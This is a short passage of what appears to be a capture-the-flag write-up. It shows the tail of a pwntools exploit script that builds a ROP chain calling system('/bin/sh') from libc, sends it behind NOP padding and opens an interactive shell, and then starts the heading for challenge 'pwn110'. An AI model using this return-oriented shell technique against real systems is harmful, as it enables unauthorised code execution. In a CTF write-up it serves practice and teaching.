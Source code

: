 ```python
rop.system(next(libc.search(b'/bin/sh')), 0, 0)

io.recvuntil(b'Go ahead \xf0\x9f\x98\x8f')
io.recvline()
io.sendline(b'\x90'*40 + rop.chain())

io.clean()
io.interactive()
```

<p align="center"> <img src="assets/Untitled%2053.png"> </p>

# Challenge 10 - pwn110

<p align="center"> <img src="assets/Untitled%2054.png"> </p>

